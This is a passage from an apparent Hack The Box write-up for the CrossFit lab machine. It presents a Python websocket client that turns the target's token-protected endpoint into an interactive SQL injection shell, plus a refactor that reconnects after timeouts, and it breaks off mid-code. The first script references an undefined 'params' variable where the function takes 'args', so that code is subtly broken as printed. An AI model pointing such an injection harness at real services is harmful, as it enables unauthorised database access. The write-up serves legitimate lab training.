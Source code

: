 ```

#!/usr/bin/env python3

import json
import websocket
from cmd import Cmd

class Term(Cmd):
    prompt = "injection> "

    def __init__(self):
        self.ws = websocket.create_connection("ws://gym.crossfit.htb/ws/")
        data = json.loads(self.ws.recv())
        self.token = data["token"]
        super().__init__()

    def default(self, args):
        self.ws.send(
            f'{{"message":"available","params":"{params}", "token": "{self.token}"}}'
        )
        data = json.loads(self.ws.recv())
        self.token = data["token"]
        print(data["debug"])
        
    def do_exit(self, args):
        return True

term = Term()
term.cmdloop()

```

Basically I create a `Term` class which subclasses `Cmd`. I set the prompt, and use the `__init__` function to create the connection to the websocket, and get the first token. The `default` function will run on any input, with the input as `args`. It will send the input as the `params` argument in the JSON payload, including the most recent `token`, and then read the response, update the `token`, and print the `debug`.

The issue this would run into is that waiting more than a few seconds to look up the SQL for the next injection would lead to a timeout on the websocket, and an exception on the `read`. I refactored a bit to now catch that error, reconnect, and then continue:

```

#!/usr/bin/env python3

import json
import websocket
from cmd import Cmd

class Term(Cmd):
    prompt = "injection> "

    def __init__(self):
        self.connect()
        super().__init__()

    def connect(self):
        self.ws = websocket.create_connection("ws://gym.crossfit.htb/ws/")
        data = json.loads(self.ws.recv())
        self.token = data["token"]

    def send_ws(self, params):
        self.ws.send(
```
